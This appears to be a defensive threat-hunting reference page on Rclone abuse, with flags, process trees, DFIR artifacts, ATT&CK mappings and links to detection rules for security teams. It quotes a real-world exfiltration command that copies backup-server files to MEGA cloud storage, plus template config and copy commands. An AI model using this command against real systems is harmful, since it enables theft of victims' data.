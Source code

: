 # Rclone

## Table of Contents

- [Rclone](#rclone)
  - [Table of Contents](#table-of-contents)
  - [Acknowledgement(s)](#acknowledgements)
  - [Description](#description)
  - [Versions History](#versions-history)
  - [File Metadata](#file-metadata)
  - [Common CommandLine](#common-commandline)
  - [Threat Actor Ops (TAOps)](#threat-actor-ops-taops)
  - [Common Process Trees](#common-process-trees)
  - [Default Install Location](#default-install-location)
  - [DFIR Artifacts](#dfir-artifacts)
  - [Examples In The Wild](#examples-in-the-wild)
  - [Documentation](#documentation)
  - [Blogs / Reports References](#blogs--reports-references)
  - [ATT&CK Techniques](#attck-techniques)
  - [Telemetry](#telemetry)
  - [Detection Validation](#detection-validation)
  - [Detection Rules](#detection-rules)
  - [LOLBAS / GTFOBins References](#lolbas--gtfobins-references)

## Acknowledgement(s)

- 3CORESec - [@3CORESec](https://twitter.com/3CORESec)
- Nasreddine Bencherchali - [@nas_bench](https://twitter.com/nas_bench)

## Description

<p align="center"><img src="/Images/Screenshots/DefenderControl.png"></p>

> **Rclone is a command line program to manage files on cloud storage, has powerful cloud equivalents to the unix commands rsync, cp, mv, mount, ls, ncdu, tree, rm, and cat** — [Rclone](https://rclone.org/)

## Versions History

| Version | SHA1                                     | VT                                                                                                                   |
|---------|------------------------------------------|----------------------------------------------------------------------------------------------------------------------|
| 1.57.0 (x64)    | fdb92fac37232790839163a3cae5f37372db7235 | [LINK](https://www.virustotal.com/gui/file/0112e3b20872760dda5f658f6b546c85f126e803e27f0577b294f335ffa5a298)                                                                                                             |

## File Metadata

| Attribute     | Value |
|---------------|-------|
| Copyright     | The Rclone Authors     |
| Product       | Rclone     |
| Description   | Rsync for cloud storage     |
| Original Name | rclone.exe     |
| Internal Name | rclone     |

## Common CommandLine

- Rclone is most often renamed by threat actors so its better to focus on the arguments as those are less likely to change

```batch
rclone config

rclone config create [ConfName] [CloudStorageProvider] user [User/Email] pass [Password]

rclone copy --max-age [Duration] "[\\Source]" [ConfigName]:[Destination]
```

- Below are some of the most common flags

```yaml
- -q, --quiet: Print as little stuff as possible
- --no-check-certificate: Do not verify the server SSL certificate (insecure)
- --auto-confirm: If enabled, do not request console confirmation
- --max-age: Only transfer files younger than this in s or suffix ms|s|m|h|d|w|M|y (default off)
- --bwlimit BwTimetable: Bandwidth limit in KiB/s, or use suffix B|K|M|G|T|P or a full timetable
- -P, --progress: Show progress during transfer
- --transfers: Number of file transfers to run in parallel (default 4)
- --ignore-existing: Skip all files that exist on destination
- --multi-thread-streams: Max number of streams to use for multi-thread downloads (default 4)
```

## Threat Actor Ops (TAOps)

- [Exfiltration of data via ``Rclone`` (Example 1)](https://www.advintel.io/post/backup-removal-solutions-from-conti-ransomware-with-love)

```powershell
rclone.exe copy --max-age 2y "\\VEEAM.VICTIMORG.local\" mega:VEEAM -q --ignore-existing --auto-confirm --multi-thread-streams 7 --transfers 7 --bwlimit 10M
```

## Common Process Trees

- Rclone launched from CMD or PowerShell

```yaml
.
└── cmd.exe
    └── rclone.exe

.
└── powershell.exe
    └── rclone.exe
```

## Default Install Location

- ``Rclone`` is a downloadable portable executable so no installation is required to execute it.

## DFIR Artifacts

- Using the default config creation command will create the file ``rclone.conf`` in the following location:

```batch
C:\Users\[Username]\AppData\Roaming\rclone\rclone.conf
```

## Examples In The Wild

- TBD

## Documentation

- [Rclone - Commands](https://rclone.org/commands/)
- [Rclone - Usage](https://rclone.org/docs/)
- [Rclone - Flags](https://rclone.org/flags/)

## Blogs / Reports References

- [Cybereason - THREAT ANALYSIS REPORT: From Shathak Emails to the Conti Ransomware](https://www.cybereason.com/blog/threat-analysis-report-from-shatak-emails-to-the-conti-ransomware)
- [Cybereason - Cybereason vs. Egregor Ransomware](https://www.cybereason.com/blog/cybereason-vs-egregor-ransomware)
- [The DFIR Report - BazarLoader and the Conti Leaks](https://thedfirreport.com/2021/10/04/bazarloader-and-the-conti-leaks/)
- [The DFIR Report - Sodinokibi (aka REvil) Ransomware](https://thedfirreport.com/2021/03/29/sodinokibi-aka-revil-ransomware/)
- [The DFIR Report - CONTInuing the Bazar Ransomware Story](https://thedfirreport.com/2021/11/29/continuing-the-bazar-ransomware-story/)
- [Microsoft Security Blog - BazaCall: Phony call centers lead to exfiltration and ransomware](https://www.microsoft.com/security/blog/2021/07/29/bazacall-phony-call-centers-lead-to-exfiltration-and-ransomware/)
- [Mandiant - So Unchill: Melting UNC2198 ICEDID to Ransomware Operations](https://www.mandiant.com/resources/melting-unc2198-icedid-to-ransomware-operations)
- [Mandiant - Shining a Light on DARKSIDE Ransomware Operations](https://www.mandiant.com/resources/shining-a-light-on-darkside-ransomware-operations)
- [Mandiant - UNC2447 SOMBRAT and FIVEHANDS Ransomware: A Sophisticated Financial Threat](https://www.mandiant.com/resources/unc2447-sombrat-and-fivehands-ransomware-sophisticated-financial-threat)
- [Mandiant - Navigating the MAZE: Tactics, Techniques and Procedures Associated With MAZE Ransomware Incidents](https://www.mandiant.com/resources/tactics-techniques-procedures-associated-with-maze-ransomware-incidents)
- [ADVIntel - Backup “Removal” Solutions - From Conti Ransomware With Love](https://www.advintel.io/post/backup-removal-solutions-from-conti-ransomware-with-love)
- [ADVIntel - Hunting for Corporate Insurance Policies: Indicators of [Ransom] Exfiltration](https://www.advintel.io/post/hunting-for-corporate-insurance-policies-indicators-of-ransom-exfiltrations)
- [NCC Group - Detecting Rclone – An Effective Tool for Exfiltration](https://research.nccgroup.com/2021/05/27/detecting-rclone-an-effective-tool-for-exfiltration/)
- [Red Canary - Transferring leverage in a ransomware attack](https://redcanary.com/blog/rclone-mega-extortion/)

## ATT&CK Techniques

- [T1048 - Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048/)
- [T1567.002 - Exfiltration Over Web Service: Exfiltration to Cloud Storage](https://attack.mitre.org/techniques/T1567/002/)

## Telemetry

- [Security Event ID 4688 - A new process has been created](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4688)
- [Sysmon Event ID 1 - Process creation](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=90001)
- [PsSetCreateProcessNotifyRoutine/Ex](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/ntddk/nf-ntddk-pssetcreateprocessnotifyroutineex)
- [ETW - Microsoft-Windows-Kernel-Process - Event ID 1 - ProcessStart](https://github.com/nasbench/EVTX-ETW-Resources)
- [ETW - Microsoft-Windows-Kernel-File - Event ID 12 - Create](https://github.com/nasbench/EVTX-ETW-Resources)
- [Sysmon Event ID 11 - FileCreate](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=90011)

## Detection Validation

- TBD

## Detection Rules

- **Splunk**
  - [Detect Renamed RClone](https://research.splunk.com/endpoint/detect_renamed_rclone/)
  - [Detect RClone Command-Line Usage](https://research.splunk.com/endpoint/detect_rclone_command-line_usage/)

- **Microsoft 365 Defender**
  - [Bazacall Renamed Rclone for Exfiltration](https://github.com/microsoft/Microsoft-365-Defender-Hunting-Queries/blob/master/Campaigns/Bazacall/Renamed%20Rclone%20Exfil.md)

- **Sigma**
  - [Rclone Config File Creation](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/file_event/win_rclone_exec_file.yml)
  - [Rclone Execution via Command Line or PowerShell](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/win_susp_rclone_execution.yml)

- **Other**
  - [Vadim-Hunter - Sodinokibi (aka REvil) Ransomware](https://github.com/vadim-hunter/Detection-Ideas-Rules/blob/main/Threat%20Intelligence/The%20DFIR%20Report/20210329_Sodinokibi_(aka_REvil)_Ransomware.yaml)
  - [BeardOfBinary - Rclone Execution via Command Line or PowerShell](https://gist.github.com/beardofbinary/fede0607e830aa1add8deda3d59d9a77#file-rclone_execution-yaml)

## LOLBAS / GTFOBins References

- None
